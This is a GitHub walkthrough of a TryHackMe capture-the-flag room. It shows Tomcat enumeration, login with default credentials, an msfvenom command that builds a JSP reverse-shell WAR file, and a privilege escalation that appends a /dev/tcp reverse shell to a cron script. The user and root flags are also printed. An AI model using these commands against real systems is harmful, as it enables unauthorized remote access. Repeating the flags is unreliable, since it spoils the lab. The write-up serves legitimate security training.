








# Team CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Team** CTF challenge on [TryHackMe](https://tryhackme.com/r/room/bsidesgtthompson). 
---
Using nmap to find open ports



Open ports: `22 ssh`, `8080 http` and `8009 ajp13`

Default Apache Tomcat webpage:


Using gobuster to enumerate hidden directories

```
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.99.7:8080

```



Found `/manager` but its protected by login form



Deafult credentials doesn't seem to work, but cancelling reveals more info



Now trying other default credentials suggested by the site, `tomcat`:`s3cret`, and it works

We can see admin panel


We are able to submit `.war` files, so i will create a payload that executes reverse shell using `msfvenom`

```
msfvenom -p java/jsp_shell_reverse_tcp LPORT=9999 LHOST=<ATTACKER IP> -f war -o shell.war  
```

Now i upload `shell.war`, start nc listener and go to `http://IP:8080/shell`





> [!IMPORTANT]
> User flag from `user.txt`: `39400c90bc683a41a8935e4719f181bf`

Now checking `id.sh`, the script is run as cronjob so it is our privilage escalation factor



Using simple command to generate another reverse shell this time as root

```
echo "sh -i >& /dev/tcp/<ATTACKER IP>/4444 0>&1" >> id.sh
```

Now we need to wait for script to execute



> [!IMPORTANT]
> Root flag from `root.txt`: `d89d5391984c0450a95497153ae7ca3a`

# MACHINE PWNED
